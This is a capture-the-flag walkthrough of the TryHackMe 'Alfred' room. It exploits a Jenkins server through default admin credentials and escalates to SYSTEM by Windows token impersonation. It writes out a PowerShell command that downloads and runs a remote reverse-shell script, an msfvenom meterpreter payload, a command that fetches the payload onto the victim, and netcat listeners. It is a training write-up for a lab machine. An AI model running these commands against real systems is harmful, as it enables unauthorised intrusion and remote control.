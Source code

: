 ```yaml
---
layout: post
title: TryHackMe-Alfred 
subtitle: Walkthrough
tags: [Windows, Meterpreter, Privilege Escaltion]
image: pictures/Alfred/Alfred.png
comments: true
readtime: 5 minutes
---
```


Another common OSCP exam machine, in this Batman themed room, exploit Jenkins by getting a shell with powershell, then escalate your privileges by exploiting Windows authentication tokens.

You can access this room here: [Alfred](https://tryhackme.com/room/alfred)


__This room requires a TryHackMe subscription to join__

## Table of Contents

- [Task 1: Initial Access](#initial-access)
- [Task 2: Switching Shells](#switching-shells)
- [Task 3: Privilege Escalation](#privilege-escalation)


### Initial Access

**Let's Begin!**


**Question 1: How many ports are open?**
  
Deploy the box and run a nmap scan! Since the box doesnt respond to ping scans include the -Pn tag. 

~~~
nmap -sC -sV <boxip> -Pn 
~~~

10.10.51.179


 ![nmap_scan](/pictures/Alfred/nmap.png)

Our nmap scan shows 3 ports running on this box. Therefore we have our first answer. 

{: .box-success}
**Flag 1 :** X 

**Quesiton 2: What is the username and password for the log in panel(in the format username:password)**

From the nmap scan we see that we have two http services running. Navigate to the webserver on port 8080. You will see a login page. what are the chances that the manager didnt change the default credentials... let's try admin for both username and password

![admin](/pictures/Alfred/adminlogin.png)

We are in and we found our next flag! 

 {: .box-success}
**Flag=** admin:admin


**Question 3: Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it** 

The next question tells us to look for a tool that allows us to execute commands. After some clicking and snooping around you will find a place where you can input commands. 

![flag3](/pictures/Alfred/projectbuild.png)

Replace 'whoami' with the command below and click apply and save. 
~~~
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port 1234
~~~

Before we go any further, set up a netcat listening sesison on the port you have chosen above. 
~~~
nc -lnvp <1234>
~~~

 Then if you have not already you will need to download Nishang's Invoke PowerShellTcp script. 

```
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1 

```

You also need to start up a web server, python allows for us to do this easily buy just running a simple command:

~~~
python3 -m http.server 
~~~

![httpserver](/pictures/Alfred/python-httpserver.png)


All together your terminals should look like this:

![tmux](/pictures/Alfred/tmux0.png)


Once you have the Powershell Script downloaded and the http server running navigate back to the project menu and select build. 

![build](/pictures/Alfred/Build.png)

Go back to your terminal and you should see on the python http server the victim ip reaching out and getting our Powershell script. Along with a shell opening up on your listening shell! 

![tmux1](/pictures/Alfred/tmux.png)

Once you are in, navigate to bill's Desktop directory and obtain the flag. 

~~~
PS C:\Users\bruce\Desktop> type user txt
~~~

{: .box-success}
**Flag:** XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX


### Switching Shells

The next task instructs us to switch to a meterpreter shell to allow for easier privilege escalation. They give us a command to create a windows meterpreter revese shell to use. 

~~~
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder 
      x86/shikata_ga_nai LHOST=<IP> LPORT=5555 -f exe -o alfred.exe
~~~

Open a new terminal and run the command above. I set the listening port on port 5555 and set the shell name to alfred.exe. Download that and you get our only flag

![msfvenom](/pictures/Alfred/msfvenom.png)

{: .box-success}
**Flag:** XXXXX

Open up another listening session for port 5555
~~~
nc -lnvp 5555
~~~

Looking back at the room, it tells us also to create a payload to upload to the victim's machine. We will enter this in the same place we entered the last place where we entered the commands on the website. 

~~~
powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/alfred.exe','alfred.exe')"
~~~

Once you have saved and applied the new changes, navigate back to the projects page and select 'Build'. 

You may have to cancel the previous exploit, which will kick you out. Don't worry! Run the command and then re-run task 1 to get back in. 

![build](/pictures/Alfred/Build.png)


Once you get back in, you should see alfred.exe in your current directory. and run the command: 

```
Start-Process alfred.exe
```
This should spawn a meterpreter shell on your newest listening shell! 


### Privilege Escalation


"Now that we have initial access, let's use token impersonation to gain system access." 


Read the information on Windows tokens then come back when you are ready to move one. 

**Question 1: View all the privileges using whomai /priv**

In your first shell run the command: 

~~~
'whoami /priv' 
~~~
![priv](/pictures/Alfred/privilege.png)

We see two of the most commonly abused privileges are enbabled! In your metasploit shell enter the command: 

~~~
load incognito
list_tokens -g
~~~

"Load incognito" will allow us to exploit this vulnerability and "list_tokens -g" will show us which tokens are available. Once we see which tokens are avaliable we can impersonate the one with the highest privilege "BUILTIN\Adminstrators" 

![incognito](/pictures/Alfred/task3-2.png)

![impersonate](/pictures/Alfred/Task3-flag3.png)

```
Run getuid command to get the next flag
```

{: .box-success}
**FLAG: XX XXXXXXXXXXXXXX** 


The last step instructs us to switch process so that we may permissions of a privileged user. Right now we just have elevated privileges. Run the commands below and search for PID for services.exe. 

~~~
meterpreter> ps
~~~

Once you have found the PID number, migrate to the PID to obtain privileged user permissions 

![final flag](/pictures/Alfred/FinalFlag.png)



Congrats!! You have completed this room!  
<p align="center">
  <img src="https://media.giphy.com/media/14iPmDWiwIkyk0/giphy.gif">
</p>

 
